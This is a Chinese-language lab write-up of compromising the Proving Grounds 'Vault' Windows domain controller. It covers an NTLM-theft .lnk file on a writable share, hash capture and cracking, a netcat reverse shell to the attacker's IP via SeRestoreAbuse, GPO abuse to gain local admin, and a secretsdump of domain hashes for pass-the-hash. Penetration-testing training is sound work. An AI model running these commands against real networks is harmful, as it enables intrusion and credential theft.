

# ProvingGrounds Vault Writeup


## Vault

这是第23台，Windows系统，难度Hard，名称 Vault

192.168.202.172


## PortScan

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP]
└─$ sudo nmap -n -r --min-rate=3500 -sSV 192.168.202.172 -T4   
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-09 16:45 CST
Nmap scan report for 192.168.202.172
Host is up (0.19s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-09 08:45:09Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.25 seconds
```

全端口扫描：

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP]
└─$ sudo nmap -n -r --min-rate=3500 -sSV 192.168.202.172 -T4 -p-           
[sudo] xavier 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-09 16:45 CST
Nmap scan report for 192.168.202.172
Host is up (0.19s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-09 08:46:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.86 seconds

```


域主机，域名：vault.offsec


## InitAccess

### SMB

SMB匿名访问

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ smbclient -L //192.168.202.172/ -U &#39;&#39;                       
Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        DocumentsShare  Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.202.172 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ crackmapexec smb 192.168.202.172 -u &#39;guest&#39; -p &#39;&#39; --shares 
SMB         192.168.202.172 445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:False)
SMB         192.168.202.172 445    DC               [&#43;] vault.offsec\guest: 
SMB         192.168.202.172 445    DC               [&#43;] Enumerated shares
SMB         192.168.202.172 445    DC               Share           Permissions     Remark
SMB         192.168.202.172 445    DC               -----           -----------     ------
SMB         192.168.202.172 445    DC               ADMIN$                          Remote Admin
SMB         192.168.202.172 445    DC               C$                              Default share
SMB         192.168.202.172 445    DC               DocumentsShare  READ,WRITE      
SMB         192.168.202.172 445    DC               IPC$            READ            Remote IPC
SMB         192.168.202.172 445    DC               NETLOGON                        Logon server share 
SMB         192.168.202.172 445    DC               SYSVOL                          Logon server share
```

可以看到 DocumentsShare 路径下有可写权限。尝试上传恶意文件到该目录下。


使用[NTLM_Theft](https://github.com/Greenwolf/ntlm_theft)工具生成恶意文件.

```sh
┌──(xavier㉿kali)-[~/Hacksafe/4-权限提升/Windows/ntlm_theft]
└─$ python3 ntlm_theft.py -g lnk -s 192.168.45.248 -f test
Created: test/test.lnk (BROWSE TO FOLDER)
Generation Complete.
```

上传到该目录下，responder等待回连

```sh
──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ smbclient //192.168.202.172/DocumentsShare -U &#39;&#39;
Password for [WORKGROUP\]:
Try &#34;help&#34; to get a list of possible commands.
smb: \&gt; put test.lnk 
putting file test.lnk as \test.lnk (3.3 kb/s) (average 3.3 kb/s)
```


```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ sudo responder -I tun0
……

[&#43;] Listening for events...                                                                                 

[SMB] NTLMv2-SSP Client   : 192.168.202.172
[SMB] NTLMv2-SSP Username : VAULT\anirudh
[SMB] NTLMv2-SSP Hash     : anirudh::VAULT:b016c3bc0a2a9b1c:8B6874393AEA8CC736BEAA79E7E1D231:010100000000000000DD12A6A05BDA01B5B2F11259155F4A000000000200080051004B003700350001001E00570049004E002D00570041005A00460036004B0035004A0057004B00560004003400570049004E002D00570041005A00460036004B0035004A0057004B0056002E0051004B00370035002E004C004F00430041004C000300140051004B00370035002E004C004F00430041004C000500140051004B00370035002E004C004F00430041004C000700080000DD12A6A05BDA010600040002000000080030003000000000000000010000000020000077EEB54469D1F6103BA0F72DC177ACE44970D6FADE091CA17405179482A7C5F20A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200340038000000000000000000                       
[*] Skipping previously captured hash for VAULT\anirudh
[*] Skipping previously captured hash for VAULT\anirudh
```

hashcat尝试破解

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ hashcat -m 5600 -a 0 1.hash /usr/share/wordlists/rockyou.txt --force --quiet
ANIRUDH::VAULT:b016c3bc0a2a9b1c:8b6874393aea8cc736beaa79e7e1d231:010100000000000000dd12a6a05bda01b5b2f11259155f4a000000000200080051004b003700350001001e00570049004e002d00570041005a00460036004b0035004a0057004b00560004003400570049004e002d00570041005a00460036004b0035004a0057004b0056002e0051004b00370035002e004c004f00430041004c000300140051004b00370035002e004c004f00430041004c000500140051004b00370035002e004c004f00430041004c000700080000dd12a6a05bda010600040002000000080030003000000000000000010000000020000077eeb54469d1f6103ba0f72dc177ace44970d6fade091ca17405179482a7c5f20a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00340035002e003200340038000000000000000000:SecureHM
```

得到一组账号密码：`anirudh/SecureHM`

使用Evil-WinRM成功登录系统

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ evil-winrm -u anirudh -p SecureHM -i 192.168.202.172
……
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt;
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; type C:\Users\anirudh\Desktop\local.txt
6379a394e97f465833bd2a2d72fe5d56
```


## PrivE

检查当前用户权限，发现权限有很多：

```sh
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

### SeRestorePrivilege

看到有这个权限，可以用于提权。

使用工具：[SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)，需要自己手动编译一下。

上传SeRestoreAbuse 和nc

```sh
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; upload SeRestoreAbuse.exe
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; upload nc64.exe
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; mkdir C:\tmp\
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; copy nc64.exe C:\tmp\nc.exe
```

执行 SeRestoreAbuse 利用脚本

```sh
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; ./SeRestoreAbuse.exe &#34;C:\tmp\nc.exe 192.168.45.248 4444 -e powershell&#34;
RegCreateKeyExA result: 0
RegSetValueExA result: 0

```

另一边nc监听，因为SeRestoreAbuse这个工具执行一段时间后，可能会报错导致shell中断，再做一次转发就好了

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.248] from (UNKNOWN) [192.168.202.172] 51849
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32&gt; C:\tmp\nc.exe 192.168.45.248 5555 -e powershell
C:\tmp\nc.exe 192.168.45.248 5555 -e powershell
```


```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ nc -nlvp 5555
listening on [any] 5555 ...
connect to [192.168.45.248] from (UNKNOWN) [192.168.202.172] 51852
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32&gt; whoami
whoami
nt authority\system
PS C:\Windows\system32&gt; type C:\users\administrator\desktop\proof.txt
type C:\users\administrator\desktop\proof.txt
12ef329cf77b22fb67e52b389022be6d

```


```sh
./SeRestoreAbuse.exe &#34;C:\tmp\nc.exe 192.168.45.248 4444 -e powershell&#34;

C:\tmp\nc.exe 192.168.45.248 5555 -e powershell
```


### GPO Abuse

检查当前用户是否具备修改组策略的权限。

将PowerView 放到Evil-WinRM的执行目录下

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .

┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ ls
1.hash  PowerView.ps1
```

接下来, 使用Evil-WinRM 和 -s 参数重新连接，以便访问当前目录中的 PowerShell 脚本。

```
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; exit

Info: Exiting with code 0


┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ evil-winrm -u anirudh -p SecureHM -i 192.168.202.172 -s .

……

*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; 
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; PowerView.ps1
```

组策略枚举

使用  `Get-NetGPO` 列出 GPOs（Group Policy Objects），获取GUID

```
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; PowerView.ps1
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; Get-NetGPO


usncreated               : 5672
systemflags              : -1946157056
displayname              : Default Domain Policy
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{53D6AB1B-2488-11D1-A28C-00C04FB94F17}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}][{B1BE8D72-6EAC-11D2-A4EA-00C04F79F83A}{53D6AB1B-2488-11D1-A28C-00
                           C04FB94F17}]
whenchanged              : 11/19/2021 9:00:32 AM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 12778
dscorepropagationdata    : {11/19/2021 9:00:32 AM, 11/19/2021 8:51:14 AM, 1/1/1601 12:00:00 AM}
name                     : {31B2F340-016D-11D2-945F-00C04FB984F9}
flags                    : 0
cn                       : {31B2F340-016D-11D2-945F-00C04FB984F9}
iscriticalsystemobject   : True
gpcfilesyspath           : \\vault.offsec\sysvol\vault.offsec\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
distinguishedname        : CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=vault,DC=offsec
whencreated              : 11/19/2021 8:50:33 AM
versionnumber            : 4
instancetype             : 4
objectguid               : 93130581-3375-49c7-88d3-afdc915a9526
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=vault,DC=offsec

usncreated               : 5675
systemflags              : -1946157056
displayname              : Default Domain Controllers Policy
gpcmachineextensionnames : [{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 11/19/2021 8:50:33 AM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 5675
dscorepropagationdata    : {11/19/2021 8:51:14 AM, 1/1/1601 12:00:00 AM}
name                     : {6AC1786C-016F-11D2-945F-00C04fB984F9}
flags                    : 0
cn                       : {6AC1786C-016F-11D2-945F-00C04fB984F9}
iscriticalsystemobject   : True
gpcfilesyspath           : \\vault.offsec\sysvol\vault.offsec\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
distinguishedname        : CN={6AC1786C-016F-11D2-945F-00C04fB984F9},CN=Policies,CN=System,DC=vault,DC=offsec
whencreated              : 11/19/2021 8:50:33 AM
versionnumber            : 1
instancetype             : 4
objectguid               : 0ccc30ba-3bef-43ac-9c61-ebb814e9a685
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=vault,DC=offsec
```

使用 Get-GPPermission 检查默认组策略（Default Group Policy）的权限。

```
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; Get-GPPermission -Guid 31B2F340-016D-11D2-945F-00C04FB984F9 -TargetType User -TargetName anirudh


Trustee     : anirudh
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```

“Permission”表明 anirudh 用户编辑、删除和修改此策略的权限。可以使用 [SharpGPOAbuse](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/SharpGPOAbuse.exe) 工具来利用这种错误配置。

下载SharpGPOAbuse: https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/SharpGPOAbuse.exe 

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/tools/win]
└─$ wget https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/SharpGPOAbuse.exe

```

上传到目标主机

```sh
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; upload SharpGPOAbuse.exe
Info: Uploading SharpGPOAbuse.exe to C:\Users\anirudh\Documents\SharpGPOAbuse.exe

                                                             
Data: 94208 bytes of 94208 bytes copied

Info: Upload successful!

```

执行 SharpGPOAbuse.exe，将anirudh用户帐户添加到本地管理员组，传递用户名，并传递我们具有写入权限的组策略。

```
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName &#34;Default Domain Policy&#34;
[&#43;] Domain = vault.offsec
[&#43;] Domain Controller = DC.vault.offsec
[&#43;] Distinguished Name = CN=Policies,CN=System,DC=vault,DC=offsec
[&#43;] SID Value of anirudh = S-1-5-21-537427935-490066102-1511301751-1103
[&#43;] GUID of &#34;Default Domain Policy&#34; is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[&#43;] File exists: \\vault.offsec\SysVol\vault.offsec\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[&#43;] The GPO does not specify any group memberships.
[&#43;] versionNumber attribute changed successfully
[&#43;] The version number in GPT.ini was increased successfully.
[&#43;] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[&#43;] Done!
```

更新本地组策略

```
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

验证当前用户是否成功添加到本地管理员组

```
*Evil-WinRM* PS C:\Users\anirudh\Documents&gt; net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
anirudh
The command completed successfully.
```

接下去就可以用RDP登录到目标主机上

```
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ xfreerdp /u:anirudh /p:&#39;SecureHM&#39; /v:192.168.202.172 /sec:nla /dynamic-resolution &#43;clipboard /drive:share,/home/xavier/project/ /tls-seclevel:0
```


也可以使用 psexec 获取交互式shell。

```
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ impacket-psexec vault.offsec/anirudh:SecureHM@192.168.202.172 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.202.172.....
[*] Found writable share ADMIN$
[*] Uploading file tAligQWE.exe
[*] Opening SVCManager on 192.168.202.172.....
[*] Creating service ycfe on 192.168.202.172.....
[*] Starting service ycfe.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt; whoami
nt authority\system

C:\Windows\system32&gt; type C:\users\administrator\desktop\proof.txt
12ef329cf77b22fb67e52b389022be6d

```

也可以使用anirudh，获取administrator等用户的hash

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ impacket-secretsdump vault.offsec/anirudh:SecureHM@192.168.202.172
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xe9a15188a6ad2d20d26fe2bc984b369e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:608339ddc8f434ac21945e026887dc36:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn&#39;t have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
……
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54ff9c380cf1a80c23467ff51919146e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c660d4355b25d08a42130cb43d93418c:::
anirudh:1103:aad3b435b51404eeaad3b435b51404ee:74c8075e8506407ebe49bb8de63f6057:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:04a4f11933ff6e77b6b03a8591cfb48e:::
[*] Kerberos keys grabbed
……
```


然后使用Administrator登录，这时候已经是域管理员账户权限了。

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Vault]
└─$ evil-winrm -i 192.168.202.172 -u administrator -H 54ff9c380cf1a80c23467ff51919146e

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents&gt; whoami
vault\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents&gt; net user administrator
User name                    Administrator
Full Name
Comment                      Built-in account for administering the computer/domain
User&#39;s comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/19/2021 5:43:21 AM
Password expires             Never
Password changeable          11/20/2021 5:43:21 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/9/2024 12:43:43 AM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Admins        *Group Policy Creator
                             *Domain Users         *Schema Admins
                             *Enterprise Admins
The command completed successfully.
```



## flag

```sh
anirudh/SecureHM

type C:\Users\anirudh\Desktop\local.txt
6379a394e97f465833bd2a2d72fe5d56

type C:\users\administrator\desktop\proof.txt
12ef329cf77b22fb67e52b389022be6d
```


---

> 作者: Xavier  
> URL: http://localhost:1313/posts/provinggrounds-vault/  

